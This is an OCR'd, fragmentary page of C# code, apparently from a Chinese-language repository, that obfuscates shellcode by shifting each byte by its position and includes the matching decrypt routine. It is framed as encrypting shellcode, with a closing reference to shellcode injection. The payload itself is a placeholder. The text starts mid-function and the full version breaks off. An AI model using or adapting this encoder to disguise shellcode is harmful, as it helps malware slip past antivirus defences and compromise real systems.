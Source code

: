 ```c#
            {
                for (int n = 0; n < i; n++)
                {
                    bufclone[i]++;
                }
                lolbuf.Append("0x");
                lolbuf.AppendFormat("{0:x2}", bufclone[i]);
                if (i < buf.Length - 1)
                    lolbuf.Append(", ");
            }
            lolbuf.Append(" };");
            return lolbuf.ToString();
        }
    }
}
```

```c#
//decrypt
using System;
using System.Text;
using System.Runtime.InteropServices;

private static byte[] l337deCryptPlusPlus(byte[] buf)
{
    StringBuilder lolbuf = new StringBuilder();

    byte[] bufclone = (byte[])buf.Clone();
    for (int i = 0; i < buf.Length; i++)
    {
        for (int n = 0; n < i; n++)
        {
            bufclone[i]--;
        }
    }
    return bufclone;
}
```

完整版
```C#
//加密shellcode
using System;
using System.Text;

namespace cryprt1337encrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[835] { xxxx };
            String s;
            s = l337CryptPlusPlus(buf);
            Console.WriteLine(s);
        }
        private static string l337CryptPlusPlus(byte[] buf)
        {
            StringBuilder lolbuf = new StringBuilder();
            lolbuf.Append("byte[] hahabuf = new byte[");
            lolbuf.Append(buf.Length);
            lolbuf.Append("]{ ");

            byte[] bufclone = (byte[])buf.Clone();
```

[go/shellcode_inject/virtual>>]: generate